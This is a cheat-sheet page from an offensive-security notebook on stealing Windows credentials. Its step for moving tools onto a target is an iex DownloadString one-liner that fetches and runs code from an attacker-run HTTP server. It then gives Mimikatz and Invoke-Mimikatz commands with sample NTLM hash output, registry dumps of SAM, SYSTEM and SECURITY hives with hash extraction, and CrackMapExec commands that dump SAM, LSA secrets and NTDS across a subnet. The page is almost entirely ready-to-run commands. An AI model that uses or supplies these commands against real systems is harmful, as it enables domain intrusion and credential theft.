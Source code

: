# Stealing credentials

## Locally

### Get NTML w/ Mimikatz

{% content-ref url="../../../tools/tools/mimikatz.md" %}
[mimikatz.md](../../../tools/tools/mimikatz.md)
{% endcontent-ref %}

#### Target preparation&#x20;

The primary thing to do is to look a PC where we are Local admin or have some privilege. Once we find the computer, we connect to it.

```powershell
powershell -ep bypass
. .\PowerView.ps1

Get-Domain
Find-LocalAdminAccess # find access where we are local admin

# connect in those pc 
Enter-PSSession $LOCAL_ADMIN_SYSTEM # (ex. seclogs.research.DOMAIN.local)
```

Now, check the privilege that we have in the machine with this command:

```powershell
whoami /all
```

Then, we need to transfer the tool to get NTML hashes to the target machine.

{% code title="Linux -> Windows Target" %}
```bash
# into linux
python3 -m http.server 80 

# Download files from windows target
iex (New-Object Net.WebClient).DownloadString('http://$IP/$FILE_NAME')
```
{% endcode %}

{% code title="Windows -> Windows Target" %}
```powershell
# Start a HTTP File Server (HFS) into a Windows machine with .exe
# https://www.rejetto.com/hfs/

# Download files from windows target
iex (New-Object Net.WebClient).DownloadString('http://$IP/$FILE_NAME')
```
{% endcode %}

#### mimikatz.exe

```powershell
PS> .\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords"

# output
Authentication Id : 0 ; 302247 (00000000:00049ca7)
Session : UndefinedLogonType from 0
User Name : Alice
Domain : DOMAIN
Logon Server : DC1
Logon Time : 12/01/2023 15:13:19
SID : S-1-5-21-3501040295-3816137123-30697657-1109
msv :
[00000003] Primary
* Username : Alice
* Domain : DOMAIN
* NTLM : a0c8746a6efc7782c7c19c55185145be
```

#### Invoke-Mimikatz.ps1

{% code overflow="wrap" %}
```powershell
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords"'
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (119).png" alt=""><figcaption></figcaption></figure>

#### CrackMapExec

```bash
crackmapexec smb <IP> -u USER -p PASSWORD -M mimikatz
```





### Stealing SAM & SYSTEM

The easiest way to steal those files is to get a copy from the registry:

```powershell
reg save HKLM\sam sam
reg save HKLM\system system
reg save HKLM\security security
```

**Download** those files to your Kali machine and **extract the hashes** using:

```bash
samdump2 SYSTEM SAM
impacket-secretsdump -sam sam -security security -system system LOCAL
```

## Remotely

Sections below allow us to dump credentials from Kali linux to Windows target.

### w/ CrackMapExec



#### Dump SAM <a href="#dump-sam-hashes" id="dump-sam-hashes"></a>

```bash
cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --sam
```

#### Dump LSA <a href="#dump-lsa-secrets" id="dump-lsa-secrets"></a>

```bash
cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --lsa
```

#### Dump NTDS <a href="#dump-the-ntdsdit-from-target-dc" id="dump-the-ntdsdit-from-target-dc"></a>

```bash
cme smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds
#~ cme smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds vss
```









